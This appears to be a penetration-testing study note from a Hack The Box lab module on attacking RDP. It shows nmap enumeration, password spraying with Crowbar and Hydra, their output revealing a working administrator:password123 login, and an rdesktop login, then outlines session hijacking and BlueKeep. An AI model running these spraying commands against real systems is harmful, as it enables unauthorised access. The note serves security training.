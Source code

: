 # Attacking RDP
## Enumeration

```bash
Yashfren@htb[/htb]# nmap -Pn -p3389 192.168.2.143 

Host discovery disabled (-Pn). All addresses will be marked 'up', and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 04:20 BST
Nmap scan report for 192.168.2.143
Host is up (0.00037s latency).

PORT     STATE    SERVICE
3389/tcp open ms-wbt-server
```

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service. As an example below, the password `password123` will be tested against a list of usernames in the `usernames.txt` file. 

```bash
Yashfren@htb[/htb]# cat usernames.txt 

root
test
user
guest
admin
administrator
```

#### Crowbar - RDP Password Spraying

```bash
Yashfren@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

We can also use `Hydra` to perform an RDP password spray attack.
#### Hydra - RDP Password Spraying

```bash
Yashfren@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

We can RDP into the target system using the `rdesktop` client or `xfreerdp` client with valid credentials.
#### RDP Login

```bash
Yashfren@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143

Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate, the connection atempt will be aborted:

    Subject: CN=WIN-Q8F2KTAI43A
     Issuer: CN=WIN-Q8F2KTAI43A
 Valid From: Tue Aug 24 04:20:17 2021
         To: Wed Feb 23 03:20:17 2022

  Certificate fingerprints:

       sha1: cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
     sha256: f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57

Do you trust this certificate (yes/no)? yes
```
## Protocol Specific Attacks

Let's imagine we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account. In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.


# Latest RDP Vulnerabilities

---

In 2019, a critical vulnerability was published in the RDP (`TCP/3389`) service that also led to remote code execution (`RCE`) with the identifier [CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708). This vulnerability is known as `BlueKeep`. It does not require prior access to the system to exploit the service for our purposes. However, the exploitation of this vulnerability led and still leads to many malware or ransomware attacks. Large organizations such as hospitals, whose software is only designed for specific versions and libraries, are particularly vulnerable to such attacks, as infrastructure maintenance is costly. Here, too, we will not go into minute detail about this vulnerability but rather keep the focus on the concept.
# Tags
> #Exploitation #Service-Exploitation #MySQL